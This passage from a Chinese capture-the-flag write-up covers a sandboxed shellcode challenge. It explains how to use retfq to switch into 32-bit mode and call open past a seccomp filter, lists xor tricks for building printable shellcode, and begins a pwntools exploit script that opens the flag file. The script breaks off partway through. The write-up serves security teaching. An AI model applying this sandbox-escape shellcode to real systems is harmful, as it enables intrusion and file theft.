 可以看到可以调用write,read,mmap但是没有open，这个时候可以利用fstat()函数，该函数的 64 位系统调用号为 5，这个是 `open` 函数的 32 位系统调用号）

所以这道题的思路也就有了，利用 `retfq` 汇编指令进行 32 位和 64 位系统格式之间的切换，在 32 位格式下执行 `open` 函数打开 `flag` 文件，在 64 位格式下执行输入输出。

相关系统调用号可以参考[linux 系统调用号表\_linux系统调用号\_Anciety的博客-CSDN博客](https://blog.csdn.net/qq_29343201/article/details/52209588)

这道题ex团长设计的还是难顶的，限制输入的 shellcode 必须是可打印字符，我们可以借助一些技巧从而构造汇编指令(比如异或之类的算法操作)

可以用**shellcode的艺术**中的**第三模块**中的总结用法，比如

```plain
xor al, 立即数
xor byte ptr [eax… + 立即数], al dl…
xor byte ptr [eax… + 立即数], ah dh…
xor dword ptr [eax… + 立即数], esi edi
xor word ptr [eax… + 立即数], si di
xor al dl…, byte ptr [eax… + 立即数]
xor ah dh…, byte ptr [eax… + 立即数]
xor esi edi, dword ptr [eax… + 立即数]
xor si di, word ptr [eax… + 立即数]
```

exp:

```plain
#coding:utf-8
from pwn import *
context.log_level = 'debug'
p = process('./shellcode')
# p = remote("nc.eonew.cn","10011")
p.recvuntil("shellcode: ")

append_x86 = '''
push ebx
pop ebx
'''
append = '''
/* 机器码: 52 5a */
push rdx
pop rdx
'''

shellcode_x86 = '''
/*fp = open("flag")*/
mov esp,0x40404140

/* s = "flag" */
push 0x67616c66

/* ebx = &s */
push esp
pop ebx

/* ecx = 0 */
xor ecx,ecx

mov eax,5
int 0x80

mov ecx,eax
'''

shellcode_flag = '''
/* retfq:  mode_32 -> mode_64*/
push 0x33
```